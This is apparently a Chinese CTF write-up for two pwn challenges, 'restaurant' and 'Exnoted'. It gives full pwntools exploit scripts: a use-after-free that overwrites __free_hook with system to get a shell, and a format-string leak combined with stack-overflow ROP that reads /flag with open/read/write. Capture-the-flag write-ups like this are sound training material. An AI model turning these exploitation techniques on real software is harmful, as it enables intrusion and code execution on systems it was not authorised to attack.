接下来利用uaf漏洞修改free\_hook为system函数实现getshell

​

```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
p=process('./restaurant')
#p=remote('192.168.46.103',10002)
elf=ELF('./restaurant')
libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.17_amd64/libc.so.6')
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
def bug():
	gdb.attach(p)
	pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def pr(a):
	print(p.recv(a))
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()
def get_addr64():
	return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
	return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
	return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

rl("Username:")
s(b'guest')
rl("Password")
s(b'12345')
def add(idx,size):
    rl("root@iscc:~/Desktop#")
    sl(str(1))
    rl("Enter table number:")
    sl(str(idx))
    rl("Enter dish name length:")
    sl(str(size))

def free(idx):
    rl("root@iscc:~/Desktop#")
    sl(str(2))
    rl("Enter table number:")
    sl(str(idx))

def edit(idx,size,content):
    rl("root@iscc:~/Desktop#")
    sl(str(3))
    rl("Enter table number:")
    sl(str(idx))
    rl("Enter dish name length:")
    sl(str(size))
    rl("Enter new dish name:")
    s(content)
    
def show(idx):
    rl("root@iscc:~/Desktop#")
    sl(str(4))
    rl("Enter table number:")
    sl(str(idx))

add(0,0x430)
add(1,0x88)
free(0)
show(0)
libc_base=get_addr64()-2018272
li(hex(libc_base))
bug()
system,bin=get_sb()
free_hook=libc_base+libc.sym['__free_hook']
add(2,0x88)
add(3,0x88)
free(1)
free(3)
edit(2,0x100,b'a'*0x88+p64(0x90)+p64(free_hook))
add(4,0x88)
add(5,0x88)
edit(4,0x88,b'/bin/sh\x00')
edit(5,0x88,p64(system))
free(4)
inter()
```

### 攻防对抗高地pwn2-Exnoted

审计代码发现

show函数中存在格式化字符串漏洞



这里的tmp我们可以在log\_note函数中控制内容

这里我们输入0x8000，超出int16\_t的范围（-32768 到 32767）

触发第一个if判断

实现v1 = 32768 进入 read(0, buf, v1)，触发缓冲区溢出

接下来我们输入数据通过sprintf拼接到tmp变量上

通过%$p去泄露数据

这里泄露出来elf和canary

exnote函数中存在栈溢出

可构造rop链泄露libc地址

​

然后再次返回log\_note

进行二次栈溢出利用

程序禁用了execve



这里我们可以用orw/execveat或者openat+sendfile绕过都可以



```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
p=process('./exnoted')
#p=remote('192.168.46.103',10002)
elf=ELF('./exnoted')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.17_amd64/libc.so.6')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
def bug():
	gdb.attach(p)
	pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def pr(a):
	print(p.recv(a))
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()
def get_addr64():
	return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
	return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
	return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')


def add(content):
    rl(">")
    sl(str(1))
    rl("Input note length:")
    sl(str(0x8000))
    rl("Input your note:")
    s(content)

def exnote(content):
    rl(">")
    sl(str(3))
    rl("his is Exnote")
    s(content)

    
def show():
    rl(">")
    sl(str(2))


add(b'%7$p%9$p')
show()
rl("0x")
elf_base=int(p.recv(12),16)-0x1601
li(hex(elf_base))
rl("0x")
canary=int(p.recv(16),16)
li(hex(canary))
pop_rdi =0x000000000000132a+elf_base
puts_got = elf.got["puts"] + elf_base
puts_plt = elf.plt["puts"] + elf_base
payload =b"a"*0x28+p64(canary)*2+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(elf_base+0x1333)
#bug()
exnote(payload)
libc_base=get_addr64()-libc.sym['puts']
li(hex(libc_base))
rsi = libc_base+libc.search(asm("pop rsi
ret")).__next__()
rdx = libc_base+libc.search(asm("pop rdx
pop r12
ret")).__next__()
open=libc_base+libc.sym['open']
read=libc_base + libc.sym['read']
write=libc_base + libc.sym['write']
rl("Input note length:")
sl(str(0x8000))
#bug()
rl("Input your note:")
payload=b'aa/flag\x00\x00\x00'+b'a'*2+p64(canary)*2+p64(pop_rdi)+p64(elf_base+0x4068)+p64(rsi)+p64(0)+p64(open)
payload+=p64(pop_rdi)+p64(3)+p64(rsi)+p64(elf_base+0x4068)+p64(rdx)+p64(0x30)*2+p64(read)
payload+=p64(pop_rdi)+p64(1)+p64(rsi)+p64(elf_base+0x4068)+p64(rdx)+p64(0x30)*2+p64(write)
s(payload)
inter()
```

​
